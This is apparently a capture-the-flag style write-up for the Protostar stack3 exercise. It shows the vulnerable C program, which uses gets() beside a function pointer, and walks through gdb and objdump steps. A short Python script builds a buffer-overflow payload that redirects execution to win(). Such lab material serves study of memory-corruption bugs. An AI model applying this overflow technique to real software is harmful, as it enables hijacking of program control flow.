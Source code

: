 ## Protostar exercises - [stack3](https://exploit-exercises.lains.space/protostar/stack3/)

#### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

both gdb and objdump is your friend you determining where the win() function lies in memory.
This level is at /opt/protostar/bin/stack3

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### Procedure:

Similar to stack0, the program is using `gets()` function to write input into a buffer. And the variable 'fp' which is a function pointer needs to be changed from 0 to address of 'win' function.

So first we need to find 'win' address using objdump and write it to the address of 'fp' variable

##### Vulnerability:

`gets` is vulnerable as it is impossible to tell how many characters gets() will reaed. it will continue to store the characters past the end of buffer.
`fgets` needs to be used instead.


##### Disassembly:


'fp' is stored at $esp+0x5c. It is moved into eax and called at 0x08048477. Out aim is to overwrite $esp value at this point. Lets put breapoint at this call.

```
break *0x08048475
```

Lets execute with input large enough to change $eax

```
r
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```


We can see that $eax is changed to 0x41414141

We can find address of 'win' using `x win`
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Now, we need to find which part of input is being written to $eax and change it to 0x8048424

So, lets run with input AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS and check the registers


$eax contains 0x53535353, which is 'SSSS'

Lets create a simple python program to create the string
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
padding += "\x24\x84\x04\x08"
print padding
```
Lets use the output of this to run stack3

```
python stack3.py > exp
(gdb) r < /home/user/exp
info registers
```

We see $eax is now 0x8048424. So, next instruction would be to execute $eax or win() and print success

We can also find the address of win() using
```
user@protostar:/opt/protostar/bin$ objdump -x ./stack3 | grep win
08048424 g     F .text  00000014              win
```




